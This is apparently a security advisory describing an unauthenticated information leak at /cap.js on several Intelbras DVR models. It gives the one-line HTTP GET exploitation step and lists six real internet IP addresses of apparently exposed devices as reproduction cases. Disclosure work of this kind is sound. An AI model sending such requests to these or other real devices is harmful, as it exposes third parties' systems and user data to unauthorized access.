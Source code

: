 # Unrestricted Access and Potential Exposure of Sensitive Information on Intelbras DVR Series

## **Vulnerability Summary**

The HTTP GET request to **`/cap.js`** on the server Intelbras DVR reveals several potentially sensitive pieces of information that are not properly protected or encrypted. The disclosed information includes device types, user information, streaming capabilities, network ports, and configurations which could be exploited by attackers to gain unauthorized access or conduct targeted attacks, affecting over 520,000 devices on the Internet.

![Untitled](intelbras_fofa.png)

## **Affected Models**

MHDX 1004, MHDX 1008, MHDX 1016, MHDX 5016, HDCVI 1008, HDCVI 1016

## Exploitation

Launch an HTTP GET request to the target device: http://127.0.0.1/cap.js

## Reproduction Details

Several cases on the Internet were randomly selected:

http://143.137.206.226:8080/cap.js 

http://189.114.89.190/cap.js

http://143.137.206.68:8080/cap.js

http://170.246.250.145:8080/cap.js

http://191.241.145.3:37777/cap.js

http://189.92.17.151:91/cap.js


## Actual Result

![Untitled](intelbras_acutal1.png)

![Untitled](intelbras_actual2.png)

## Fix Recommendation

It is recommended to restrict access to the administrative interfaces of the device to trusted IP addresses only and apply network-level authentication.
